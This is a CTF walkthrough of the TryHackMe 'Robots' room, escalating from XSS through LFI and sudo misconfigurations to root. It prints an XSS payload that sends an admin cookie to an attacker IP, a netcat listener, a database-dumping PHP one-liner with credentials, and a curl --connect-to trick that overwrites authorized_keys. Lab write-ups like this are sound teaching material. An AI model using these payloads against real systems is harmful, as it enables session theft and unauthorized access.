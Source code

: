 ```yaml
---
title: TryHackMe Robots Write-Up Walk Through
date: 2025-03-17 08:00:00 +0200
categories: [TryHackMe, CTF, TryHackMe Write Up]
tags: [tryhackme,ctf, robots, ctf, apache2,SSRF, curl]
description: "Escalating from Web Shell to Root on TryHackMe Robots room"
comments: false
media_subpath: /assets/img/
image:
  path: TryHackMe-Robots.png
  alt: TryHackMe Robots
---
```


## Exploiting XSS to Root: A Technical Dive into TryHackMe's Robots.thm

TryHackMe's "Robots" is a rollercoaster of exploitation, blending web vulnerabilities with system-level privilege escalation. In this technical dive, I'll walk through how I went from an XSS flaw in a login form to full `root` access, leveraging `curl` and `apache2` along the way. Buckle up—here,s the path, with just enough detail to whet your appetite for the full video walkthrough.

**[You can follow YouTube video walk through here](https://youtu.be/ZAylF3vSzzQ)**

### Initial Foothold: XSS in Username Field

The journey begins with the login page (`http://robots.thm/login.php`). A quick test revealed the username field reflected input unsanitized. Injecting a simple XSS payload:

```html
<script>fetch('http://robots.thm/harm/to/self/server_info.php').then(r=>r.text()).then(t=>fetch('http://10.10.74.83:8000/catch',{method:'POST',body:t}))</script>
```

The idea here is when admin login we use above XSS payload to send us the content of the file `server_info.php` which contain the admin cookie

…dumped the admin session cookie to my listener (nc -lvnp 8000). The cookie granted access to admin portal with new endpoint admin.php, which has a PHP local file inclusion (LFI) vuln via the url parameter. Exploiting it by uploading php reverse shell, you can generate one here https://www.revshells.com/

**[You can follow YouTube video walk through here](https://youtu.be/ZAylF3vSzzQ)**


### Pivoting to rgiskard: A Database Twist

With shell access, I queried the MySQL database (mysql:host=db;dbname=web) using creds from config.php, a one line php code that can query users table:

```console
php -r '$pdo=new PDO("mysql:host=db;dbname=web;charset=utf8mb4","robots","q4qCz1OflKvKwK4S",[PDO::ATTR_ERRMODE=>PDO::ERRMODE_EXCEPTION,PDO::ATTR_DEFAULT_FETCH_MODE=>PDO::FETCH_ASSOC]);$r=$pdo->query("SELECT * FROM users");while($row=$r->fetch()){print_r($row);}'
```

From the code of the app (login.php and register.php) you can notice password is double md5 hash, you need to write script to decode the hash and use it (md5(password)) to ssh as the new  user.

As rgiskard, sudo -l exposed a juicy permission:

```console
sudo -l
# User rgiskard may run: (dolivaw) /usr/bin/curl 127.0.0.1/*
```

The wildcard (*) invited mischief. I used curl's `--connect-to` to redirect `127.0.0.1:80` to my server (`10.10.75.200:8000`), planting an SSH key:

```console
sudo -u dolivaw /usr/bin/curl 127.0.0.1/temp_ssh_key.pub --connect-to 127.0.0.1:80:10.10.75.200:8000 -o /home/dolivaw/.ssh/authorized_keys
```

then I generate temp SSH keys to login as the new user:

```console
ssh -i ~/.ssh/dolivaw_key dolivaw@robots.thm*
```

The user flag (`/home/dolivaw/flag.txt`) was mine.

## Root via Apache2: CustomLog Shell

As `dolivaw`, `sudo -l` offered a golden ticket:

```console
sudo -l
# User dolivaw may run: (ALL) NOPASSWD: /usr/sbin/apache2
```
I crafted an Apache config to execute a root shell via CustomLog:

**[You can follow YouTube video walk through here](https://youtu.be/ZAylF3vSzzQ)**

## Takeaways
This room blends XSS, LFI, sudo wildcard abuse, and Apache misconfiguration into a satisfying escalation chain. Want the nitty-gritty—config tweaks, pitfalls, and more? Check out my full walkthrough video:



# Want the Full Walkthrough?

Check out my **[full video walkthrough](https://youtu.be/ZAylF3vSzzQ)** on my YouTube channel for step-by-step guidance:

**[You can follow YouTube video walk through here](https://youtu.be/ZAylF3vSzzQ)**

<img src="robotsyoutube.png"  alt="TryHackMe Billing" >


